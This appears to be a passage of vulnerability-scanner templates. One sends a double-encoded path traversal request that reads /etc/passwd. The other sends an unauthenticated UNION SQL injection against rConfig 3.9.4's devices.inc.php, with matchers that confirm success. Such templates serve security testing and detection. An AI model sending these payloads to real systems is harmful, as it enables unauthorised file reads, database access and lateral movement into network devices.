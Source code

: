 ## Requests

- Method - GET

### URL

- {{BaseURL}}/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# rConfig 3.9.4 - SQL Injection

## Description

- rConfig 3.9.4 and previous versions have unauthenticated devices.inc.php SQL injection. Because nodes' passwords are stored in cleartext by default, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/devices.inc.php?search=True&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL+--+&searchColumn=n.id&searchOption=contains

### Matchers

**Type - status**

- status
  1. 200

**Type - word**
